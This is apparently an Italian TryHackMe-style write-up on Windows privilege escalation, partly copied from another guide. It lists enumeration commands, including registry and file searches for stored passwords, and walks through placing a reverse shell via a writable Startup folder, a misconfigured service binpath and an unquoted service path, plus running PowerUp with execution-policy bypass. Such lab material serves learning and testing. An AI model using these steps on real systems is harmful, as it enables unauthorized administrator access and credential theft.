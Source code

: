 ```yaml
---
title: Privilege Escalation Widnows
categories: [TryHackMe, WriteUp]
tags: [TryHackMe, WriteUp]
---
```


# Privilege Escalation Windows

Presi da https://hacktips.it/guida-privilege-escalation-sistemi-windows/
**CAMBIARE IMMAGINI E TESTO**

### Collect Information
 - Versione del sistema operativo e informazioni base
   - ```systeminfo | findstr /B /C:“OS Name” /C:“OS Version”```
   - ```hostname```
   - ```echo %username%```
 - Configurazioni di rete
   - ```net users```
   - ```net users usersname```
   - ```ipconfig /all```
   - ```route print```
   - ```arp -A```
   - ```netstat -ano```
 - Servizi attivi
   - ```schtasks /query /fo LIST /v```
   - ```tasklist /SVC```
   - ```net start```
 - File di configurazione
   - ```type C:\sysprep.inf```
   - ```type C:\sysprep\sysprep.xml```
   - ```type %WINDIR%\Panther\Unattend\Unattended.xml```
   - ```type %WINDIR%\Panther\Unattended.xml```
   - ```type C:\Windows\system32\sysprep\sysprep.xml```
   - ```type C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config```
   - ```type C:\inetpub\wwwroot\web.config```
 - Ricerca Password
   - ```reg query HKCU /f password /t REG_SZ /s```
   - ```reg query HKLM /f password /t REG_SZ /s```
   - ```findstr /si password *.txt```
   - ```findstr /si password *.xml```
   - ```findstr /si password *.ini```


### Weak Permission

```cacls.exe "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup"```


![calcs](/assets/img/posts/privesc-windows/weak_permission.png)

si può vedere dalla prima riga, che gli utenti appartenenti a “User” hanno completo accesso alla cartella (lettera F). In questo modo, basterà copiare la nostra reverse shell all’interno della cartella, riavviare la macchina (o disconnettersi dallla sessione) e si avrà una sessione amministrativa


### Weak Service

Utilizzando lo script di **PowerUp** abbiamo la possibilità di cercare servizi vulnerabili. Per eseguirlo, se digito

```powershell.exe -exec bypass -Command "& {Import-Module .\PowerUp.ps1; Invoke-AllChecks|Out-File -Encoding ASCII checks.txt}"```

verrà eseguito powershell, bypassando possibili controlli, in background e in modo tale da avere l’output scritto su un file di testo. Guardando all’interno del file, è stato controllato un servizio ed è risultato con permessi misconfigurati.

![Weak Service - Powershell](/assets/img/posts/privesc-windows/weak_service1.png)

Per verificare i permessi del servizio, carico sulla macchina **AccessChk**, che serve per verificare i permessi sui file, registri, servici, etc.

![Weak Service - AccessChk](/assets/img/posts/privesc-windows/weak_service2.png)

Come si può notare dall’immagine, chiunque può modificare i dettagli del servizio. Andiamo quindi ad indagare quali sono con il tools sc.

![Weak Service](/assets/img/posts/privesc-windows/weak_service3.png)


Per poter ottenere i privilegi di root, ci basterà modificare il PATH del binario con una nostra reverse shell, fermare e riavviare il servizio. In questo modo esso si avvierà come amministratore, e ci permetterà di diventare tali.


```sc config daclsvc binpath= "C:\Users\luca\Downloads\reverse.exe"```

```sc stop daclsvc #In questo momento andremo ad avviare netcat sulla nostra macchina```

```sc start daclsvc```


### Unquoted Service Path

Sempre tramite l’outpur di **PowerUP**, viene mostrato come vari servizi non abbiano le virgolette, andando a descrivere il path errato.

![Unquoted Service Path - PowerUP](/assets/img/posts/privesc-windows/unquoted_path1.png)

In questo modo, basterà andare a a copiare un file con il nome di “common” e questo verrà eseguito, poichè il sistema andrà a cercarne uno con quel nome.

![Unquoted Service Path](/assets/img/posts/privesc-windows/unquoted_path2.png)

Copio la mia solita reverse shell, mi metto in ascolto sulla porta e faccio partire il servizio

```sc stop unquotedsvc```

```sc start unquotedsvc```


![Unquoted Service Path - Powershell](/assets/img/posts/privesc-windows/unquoted_path3.png)
